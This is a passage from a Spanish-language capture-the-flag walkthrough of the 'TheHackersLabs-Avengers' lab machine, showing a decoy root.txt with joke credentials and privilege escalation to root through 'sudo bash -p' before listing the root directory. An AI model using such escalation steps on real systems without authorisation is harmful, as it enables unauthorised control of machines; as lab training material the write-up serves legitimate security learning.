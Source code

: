 Por último, veamos ese archivo **root.txt**:
```bash
antman@TheHackersLabs-Avengers:~$ cat root/root.txt 
                              ##
                              ##
 ######    ####     ####     #####
  ##  ##  ##  ##   ##  ##     ##
  ##      ##  ##   ##  ##     ##
  ##      ##  ##   ##  ##     ## ##
 ####      ####     ####       ###


From what you can see the root has a custom password

I'm going to tell you but don't tell anyone else huh...

User: root
Password: root
```
Podríamos intentar buscar una contraseña para el **Root**, pero después de probar varias combinaciones, no pude encontrar la correcta.

Entonces, vamos a regresar al **usuario stif** y escalemos privilegios para terminar la máquina.

<br>

<h2 id="Fin">Obteniendo las Flags de la Máquina y la Última Flag del Reto</h2>

Tan solo hay que dar **exit** hasta llegar a ser el **usuario stif**; luego, ejecuta el siguiente comando:
```bash
stif@TheHackersLabs-Avengers:~$ sudo bash -p
root@TheHackersLabs-Avengers:/home/stif# whoami
root
```

Vayamos al directorio del **Root** y ahí encontraremos la última flag del reto:
```bash
root@TheHackersLabs-Avengers:/home/stif# cd /root
root@TheHackersLabs-Avengers:~# tree -a
.
├── .bash_history -> /dev/null
├── .bashrc
├── FLAG.txt
├── .lesshst
├── .local
│   └── share
│       └── nano
├── .mysql_history
├── .profile
├── root.txt
├── snap
│   └── lxd
│       ├── 29351
│       ├── 31333
│       ├── common
│       └── current -> 31333
├── .ssh
│   └── authorized_keys
└── .sudo_as_admin_successful
```
